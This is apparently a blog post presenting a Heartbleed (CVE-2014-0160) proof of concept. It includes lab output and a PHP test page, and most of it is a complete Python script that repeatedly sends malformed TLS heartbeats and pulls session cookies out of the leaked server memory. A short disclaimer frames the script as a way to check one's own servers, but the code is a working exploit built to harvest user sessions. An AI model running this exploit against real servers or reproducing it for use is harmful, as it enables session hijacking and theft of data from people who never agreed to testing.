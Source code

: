```yaml
---
layout: post
title: PoC to capture data via the Heartbleed Bug
description: "A simple proof of concept on how to capture data on server running OpenSSL"
tags: [heartbeat bug, hacking, exploitation]
comments: true
---
```


This code is not mine nor I claim credits for it. You should use it only on your servers. It is very much against the law if you execute it on servers that you do not own. This code is for educational purposes only. I take no responsibility for you doing something stupid with it. Use it to check if your Apache servers running OpenSSL are vulnerable.

This is in regards to the bug that was found in OpenSSL versions 1.0.1 to 1.0.1f. These versions do not properly handle hearbeat extension. More info can be read here, [CVE-2014-0160](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0160).

### Testing Ubuntu 12.04.3 LTS running OpenSSL 1.0.1

{% highlight c %}
$ python heartbleed-altered.py 192.168.199.135 secure
secure
securepassword=iamencrypted
{% endhighlight %}

The command above will try to capture section of a memory on the server running a vulnerable OpenSSL version. This is not even a mitm attack. This tool is directly connected to the Apache server via SSL(https). I noticed though sometimes, it doesn't capture anything. I'm pretty sure that the full working code is not being shared which I think is appropriate. The output shows it was able to capture the securepassword cookie. I would like to emphasize that this is totally different from sniffing.

On my browser, I visited https://192.168.199.135/index.php
{% highlight c %}
<?php
    session_start();
    setcookie("securepassword", "iamencrypted");
    setcookie("secureusername", "highlysecured");
?>
{% endhighlight %}

This is how it looks in Chrome Developer Tools
<figure>
    <img src="/images/cookie-on-chrome-dev-tools.png">
</figure>


[Full-source code can be downloaded here](https://gist.github.com/c0debreaker/10225656)

{% highlight c %}
#!/usr/bin/python

# Connects to servers vulnerable to CVE-2014-0160 and looks for cookies, specifically user sessions.
# Michael Davis (mike.philip.davis@gmail.com)

# Based almost entirely on the quick and dirty demonstration of CVE-2014-0160 by Jared Stafford (jspenguin@jspenguin.org)

# The author disclaims copyright to this source code.

import select
import sys
import string
import struct
import socket
import time
from optparse import OptionParser

options = OptionParser(usage='%prog server [options]', description='Test for SSL heartbeat vulnerability (CVE-2014-0160)')
options.add_option('-p', '--port', type='int', default=443, help='TCP port to test (default: 443)')
options.add_option('-c', '--cookie', type='str', default='session', help='Cookie to look for. (default: session)')


def h2bin(x):
    return x.replace(' ', '').replace('\n', '').decode('hex')

hello = h2bin('''
16 03 02 00  dc 01 00 00 d8 03 02 53
43 5b 90 9d 9b 72 0b bc  0c bc 2b 92 a8 48 97 cf
bd 39 04 cc 16 0a 85 03  90 9f 77 04 33 d4 de 00
00 66 c0 14 c0 0a c0 22  c0 21 00 39 00 38 00 88
00 87 c0 0f c0 05 00 35  00 84 c0 12 c0 08 c0 1c
c0 1b 00 16 00 13 c0 0d  c0 03 00 0a c0 13 c0 09
c0 1f c0 1e 00 33 00 32  00 9a 00 99 00 45 00 44
c0 0e c0 04 00 2f 00 96  00 41 c0 11 c0 07 c0 0c
c0 02 00 05 00 04 00 15  00 12 00 09 00 14 00 11
00 08 00 06 00 03 00 ff  01 00 00 49 00 0b 00 04
03 00 01 02 00 0a 00 34  00 32 00 0e 00 0d 00 19
00 0b 00 0c 00 18 00 09  00 0a 00 16 00 17 00 08
00 06 00 07 00 14 00 15  00 04 00 05 00 12 00 13
00 01 00 02 00 03 00 0f  00 10 00 11 00 23 00 00
00 0f 00 01 01
''')

hb = h2bin('''
18 03 02 00 03
01 40 00
''')


class HeartBleeder(object):

    server_response = None
    socket = None
    hostname = ''
    port = 443
    found_sessions = set()
    cookie = 'session'
    cookie_length = 56

    def __init__(self, hostname='', cookie=''):
        self.hostname = hostname
        self.cookie = cookie

    def connect(self):
        """
        Connects to the remote server.
        """
        self.socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sys.stdout.flush()
        self.socket.connect((self.hostname, self.port))
        sys.stdout.flush()
        self.socket.send(hello)
        sys.stdout.flush()

    def rcv_response(self):
        while True:
            _type, version, payload = self.rcv_message()
            if _type is None:
                print 'Server closed connection without sending Server Hello.'
                return
            # Look for server hello done message.
            if _type == 22 and ord(payload[0]) == 0x0E:
                break

    def rcv_message(self):

        record_header = self.rcv_all(5)
        if record_header is None:
            print 'Unexpected EOF receiving record header - server closed connection'
            return None, None, None
        _type, version, line = struct.unpack('>BHH', record_header)
        payload = self.rcv_all(line, 10)
        if payload is None:
            print 'Unexpected EOF receiving record payload - server closed connection'
            return None, None, None
        # print ' ... received message: type = %d, ver = %04x, length = %d' % (typ, ver, len(pay))
        return _type, version, payload

    def rcv_all(self, length, timeout=5):
        endtime = time.time() + timeout
        rdata = ''
        remain = length
        while remain > 0:
            rtime = endtime - time.time()
            if rtime < 0:
                return None
            r, w, e = select.select([self.socket], [], [], 5)
            if self.socket in r:
                data = self.socket.recv(remain)
                # EOF?
                if not data:
                    return None
                rdata += data
                remain -= len(data)
        return rdata

    def try_heartbeat(self):
        self.socket.send(hb)
        while True:
            _type, version, self.payload = self.rcv_message()
            if _type is None:
                print 'No heartbeat response received, server likely not vulnerable'
                return False

            if _type == 24:
                # print 'Received heartbeat response:'
                self.parse_response()
                if len(self.payload) > 3:
                    pass
                    # print 'WARNING: server returned more data than it should - server is vulnerable!'
                else:
                    print 'Server processed malformed heartbeat, but did not return any extra data.'
                return True

            if _type == 21:
                print 'Received alert:'
                self.hexdump(self.payload)
                print 'Server returned error, likely not vulnerable'
                return False

    def parse_response(self):
        """
        Parses the response from the server for a session id.
        """
        ascii = ''.join((c if 32 <= ord(c) <= 126 else ' ')for c in self.payload)
        index = string.find(ascii, self.cookie)
        if index >= 0:
            info = ascii[index:index + self.cookie_length]
            session = info.split(' ')[0]
            session = string.replace(session, ';', '')
            if session not in self.found_sessions:
                self.found_sessions.add(session)
                print session

    def hexdump(self, payload):
        """
        Prints out a hexdump in the event that server returns an error.
        """
        for b in xrange(0, len(payload), 16):
            line = [c for c in payload[b:b + 16]]
            hxdat = ' '.join('%02X' % ord(c) for c in line)
            pdat = ''.join((c if 32 <= ord(c) <= 126 else '.')for c in line)
            print '  %04x: %-48s %s' % (b, hxdat, pdat)
        print

    def scan(self):
        self.connect()
        self.rcv_response()
        self.try_heartbeat()


def main():
    opts, args = options.parse_args()
    if len(args) < 1:
        options.print_help()
        return

    cookies_str = 'session'
    if len(args) > 1:
        cookies_str = args[1]

    print cookies_str

    while True:
        heartbeat = HeartBleeder(hostname=args[0], cookie=cookies_str)
        heartbeat.scan()


if __name__ == '__main__':
    main()
{% endhighlight %}